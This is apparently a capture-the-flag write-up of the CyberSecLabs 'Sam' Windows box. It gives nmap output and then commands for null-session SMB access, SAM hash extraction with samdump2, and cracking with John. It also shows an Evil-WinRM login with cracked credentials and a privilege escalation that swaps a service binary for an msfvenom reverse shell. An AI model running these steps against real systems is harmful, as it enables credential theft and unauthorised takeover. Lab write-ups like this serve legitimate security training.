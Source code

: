 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Sam/
---
```


# Sam

![](<../../../.gitbook/assets/image (525).png>)

## Nmap

```
sudo nmap 172.31.1.18 -p- -f -A

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SAM
|   NetBIOS_Domain_Name: SAM
|   NetBIOS_Computer_Name: SAM
|   DNS_Domain_Name: SAM
|   DNS_Computer_Name: SAM                                                                                                                                                                                                                 
|   Product_Version: 10.0.14393                                                                                                                                                                                                            
|_  System_Time: 2020-12-12T15:22:30+00:00                                                                                                                                                                                                 
| ssl-cert: Subject: commonName=SAM                                                                                                                                                                                                        
| Not valid before: 2020-12-11T09:05:40                                                                                                                                                                                                    
|_Not valid after:  2021-06-12T09:05:40                                                                                                                                                                                                    
|_ssl-date: 2020-12-12T15:22:36+00:00; -1s from scanner time.                                                                                                                                                                              
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                                                                                      
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                                                                                                
|_http-title: Not Found                                                                                                                                                                                                                    
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                                                                                      
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                                                                                                
|_http-title: Not Found                                                                                                                                                                                                                    
49664/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                        
49665/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                        
49666/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                        
49668/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                        
49669/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                        
49675/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                                                                        
49676/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: SAM, NetBIOS user: <unknown>, NetBIOS MAC: 02:db:2b:36:2f:a4 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: SAM
|   NetBIOS computer name: SAM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-12-12T15:22:31+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-12T15:22:31
|_  start_date: 2020-12-12T09:05:41

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   30.56 ms 10.10.0.1
2   31.60 ms 172.31.1.18

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.68 seconds
```

## SMB

As we have SMB open we can do some quick checks for null authentication.

![](<../../../.gitbook/assets/image (527).png>)

We are able to enumerate the backups share on the host and then connect to it with the following command to gain a SMB shell with null authentication.

```
smbclient -U "" \\\\172.31.1.18\\backups
```

## SAM

As it looks like a backup of the system we should see if the SAM and SYSTEM files have been backed up. Normally these files are locked when the system is running but if backed up hopefully we will be able to download them.

First we need to go the directory `Windows\System32\Config` and then use the `get` command to download the files.

![](<../../../.gitbook/assets/image (528).png>)

Kali Linux comes pre-installed with a tool called `samdump2`. We can combine the SYSTEM and SAM file with this tool to extract local user accounts and hashes.

```
samdump2 SYSTEM SAM -o /home/kali/SAMhashes.txt
```

Once completed we can `cat` the file to confirm if we have extracted account hashes.

![](<../../../.gitbook/assets/image (529).png>)

## Password Cracking

From here we can remove the '\*disabled\*' lines so they do not effect the outcome of cracking tools such as `John`.

We can then use the following command with `John` to attempt to crack the hashes.

```
sudo john --format=NT --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt /home/kali/Desktop/SAMhashes
```

![](<../../../.gitbook/assets/image (530).png>)

We have the following credentials cracked: `jamie:rangers`.

## Initial Foothold

As port 5985 is open we can attempt to connect with `Evil-WinRM`.

```
evil-winrm -u jamie -p rangers -i 172.31.1.18 -s /home/kali/scripts/windows/
```

![](<../../../.gitbook/assets/image (531).png>)

## Privilege Escalation

I checked `systeminfo` in which we have no access to perform.

![](<../../../.gitbook/assets/image (532).png>)

I then run powerup.ps1 and JAWS.ps1 and was not able to identify any interesting points of escalation. However, after running the `services` command we see something worth looking into.

![](<../../../.gitbook/assets/image (533).png>)

The services monitor1 and monitor2 are not default services and should be looked into. I queried monitor1 with `sc.exe` and received the following:

![](<../../../.gitbook/assets/image (534).png>)

As the service is run by LocalSystem this will be an ideal candidate for privilege escalation if we can replace the binary with one of our own.

Lets move to the directory and see if we can delete the binary and if we can we should be able to replace it with a malicious binary.

![](<../../../.gitbook/assets/image (535) (1).png>)

I was able to delete the binary. I will now create a reverse shell with `msfvenom`, name it `monitor1.exe` and attempt to start the service.

![](<../../../.gitbook/assets/image (536).png>)

After this has completed we can then upload it with `Evil-WinRM`.

![](<../../../.gitbook/assets/image (537) (1).png>)

Create a `netcat` listener on the attacking machine to the port defined in the `msfvenom` payload.

![](<../../../.gitbook/assets/image (538) (1).png>)

Then start the service with `sc.exe` on the victim machine.

```
sc.exe start monitor1
```

![](<../../../.gitbook/assets/image (539).png>)

We can now grab the system flags.

As the Administrator account was disabled on the system we can now enable the account. Change the password and login with the Administrator account.

![](<../../../.gitbook/assets/image (540) (1).png>)

![](<../../../.gitbook/assets/image (541).png>)
